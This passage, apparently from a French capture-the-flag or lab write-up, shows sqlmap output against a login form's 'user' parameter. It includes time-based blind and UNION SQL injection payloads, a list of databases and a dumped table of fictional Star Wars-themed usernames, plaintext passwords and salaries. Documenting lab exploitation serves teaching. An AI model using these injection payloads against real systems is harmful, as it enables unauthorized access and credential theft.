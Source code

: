 ```
sqlmap identified the following injection point(s) with a total of 58 HTTP(s) requests:
---
Parameter: user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=toto' AND (SELECT 8765 FROM (SELECT(SLEEP(5)))bLEs) AND 'PQLD'='PQLD&password=toto&s=OK

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: user=toto' UNION ALL SELECT NULL,NULL,CONCAT(0x716a717a71,0x7866557676416a7851486f50686d635748564d556b4f57756a6453786b57785470794d6248644545,0x717a767a71),NULL-- -&password=toto&s=OK
---
```

sqlmap valide la possibilité d'extraire les données avec `UNION`. Avec l'option `--db` je liste les bases existantes :

```
available databases [5]:
[*] drupal
[*] information_schema
[*] mysql
[*] payroll
[*] performance_schema
```

Et dans la base `payroll` se trouve une table avec des identifiants :

```
Database: payroll
Table: users
[15 entries]
+--------+-------------------------+------------------+------------+------------+
| salary | password                | username         | last_name  | first_name |
+--------+-------------------------+------------------+------------+------------+
| 9560   | help_me_obiwan          | leia_organa      | Organa     | Leia       |
| 1080   | like_my_father_beforeme | luke_skywalker   | Skywalker  | Luke       |
| 1200   | nerf_herder             | han_solo         | Solo       | Han        |
| 22222  | b00p_b33p               | artoo_detoo      | Detoo      | Artoo      |
| 3200   | Pr0t0c07                | c_three_pio      | Threepio   | C          |
| 10000  | thats_no_m00n           | ben_kenobi       | Kenobi     | Ben        |
| 6666   | Dark_syD3               | darth_vader      | Vader      | Darth      |
| 1025   | but_master:(            | anakin_skywalker | Skywalker  | Anakin     |
| 2048   | mesah_p@ssw0rd          | jarjar_binks     | Binks      | Jar-Jar    |
| 40000  | @dm1n1str8r             | lando_calrissian | Calrissian | Lando      |
| 20000  | mandalorian1            | boba_fett        | Fett       | Boba       |
| 65000  | my_kinda_skum           | jabba_hutt       | Hutt       | Jaba       |
| 50000  | hanSh0tF1rst            | greedo           | Rodian     | Greedo     |
| 4500   | rwaaaaawr8              | chewbacca        | <blank>    | Chewbacca  |
| 6667   | Daddy_Issues2           | kylo_ren         | Ren        | Kylo       |
+--------+-------------------------+------------------+------------+------------+
```
